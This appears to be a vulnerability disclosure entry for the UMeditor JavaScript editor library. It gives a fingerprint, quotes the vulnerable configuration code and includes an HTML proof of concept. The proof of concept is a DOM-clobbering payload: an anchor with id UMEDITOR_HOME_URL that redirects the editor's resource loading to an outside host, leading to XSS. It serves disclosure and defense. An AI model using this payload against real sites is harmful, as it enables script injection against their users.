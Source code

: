 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

```html
<!--Library-->
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>UMEDITOR 简单功能</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<link href="./themes/default/_css/umeditor.css" type="text/css" rel="stylesheet">
<script type="text/javascript" src="./third-party/jquery.min.js"></script>
<script type="text/javascript" src="./third-party/template.min.js"></script>
<script type="text/javascript" charset="utf-8" src="../umeditor.config.js"></script>
<script type="text/javascript" charset="utf-8" src="editor_api.js"></script>
<script type="text/javascript" src="./lang/zh-cn/zh-cn.js"></script>
<style type="text/css">
h1{
        font-family: "微软雅黑";
        font-weight: normal;
}
</style>
<script type="text/plain" id="myEditor" style="width:800px;height:240px;">
<p>这里我可以写一些输入提示</p>
</script>
<script type="text/javascript">
var um = UM.getEditor('myEditor',{
        //这里可以选择自己需要的工具按钮名称,此处仅选择如下七个
        toolbar:['fullscreen source undo redo bold italic underline'],
        //focus时自动清空初始化时的内容
        autoClearinitialContent:true,
        //关闭字数统计
        wordCount:false,
        //关闭elementPath
        elementPathEnabled:false,
        //默认的编辑区域高度
        initialFrameHeight:300
        //更多其他参数，请参考umeditor.config.js中的配置项
});
</script>
<!--Library-->

<!--Payload-->
<a id="UMEDITOR_HOME_URL" href="https://localhost:9999"></a>
<!--Payload-->
```


